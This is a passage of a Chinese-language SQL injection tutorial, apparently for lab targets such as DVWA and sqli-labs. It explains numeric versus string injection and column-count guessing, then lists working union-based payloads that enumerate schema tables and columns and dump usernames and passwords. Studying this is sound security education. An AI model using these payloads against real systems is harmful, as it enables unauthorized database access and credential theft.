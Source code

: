 ##### 假设是数字型

将ID的分别赋值为 1 and 1=1和1 and 1=2；

如果为数字型，则第一二句话返回结果不一致，如果为字符型，则两句话都没有效果，返回结果一致。

但是注意如果user_id本身是int类型，实际查询过程中是会返回结果的，这可能是因为对输入的字符进行了截断并转换了类型，造成1 and 1=2在字符类型中会返回user_id为1的查询结果。当然如果第二个语句返回了结果，我们也可以以此判断出该注入类型是字符型。

##### 假设是字符型

将id的值赋值为

```plain
1' and '1'='1
1' and '1'='2
```

实际代码变为：

```plain
SELECT first_name, last_name FROM users WHERE user_id = '1' and '1'='1'
```

即向id='1' and '1'='1'  其中涂色内容为输入内容

#### 猜解sql查询语句中的字段数

在这一步中，尝试去猜测出查询语句中的字段个数，如下注入语句所示，

假设为字符型注入，先利用1'实现引号闭环，

再利用or 1=1这样可以暴露出表中所有的数据，

最后利用order by num#去看是否报错来明确查询语句中的字段数，

其中#号用于截断sql查询语句。
' or 1=1 union select 1, 2, 3 #

#### 3、确定字段的显示顺序

使用union，如下

1' union select 1, 2 #

这里我们故意扰乱了first_name和last_name的两个位置，查询出来结果中的1，2会指明数据字段在查询语句中的位置。

### 4、获取当前数据库

通过前面的字段数确定以及显示顺序确定，我们就可以结合union操作来获取数据库中的信息了。如下代码所示，展示了获取数据库名的操作，根据前面已经获取到的字段数以及位置关系，假设有两个字段，那么下面的查询语句将会把数据库的名称放在第二个字段中。

### 部分基础注入语句解释

```plain
-1 order by 4 -- -
//判断有多少列
-1 union select 1,2,3 -- -
//判断数据显示点
-1 union select 1,database() -- -
//显示出登录用户和数据库名
-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'security' ),3 -- -
//查看数据库有哪些表
-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users'),3 -- -
//查看对应表有哪些列
-1 union select 1,(select group_concat(concat_ws(0x7e,username,password))from users),3 -- -
//查看账号密码信息
```

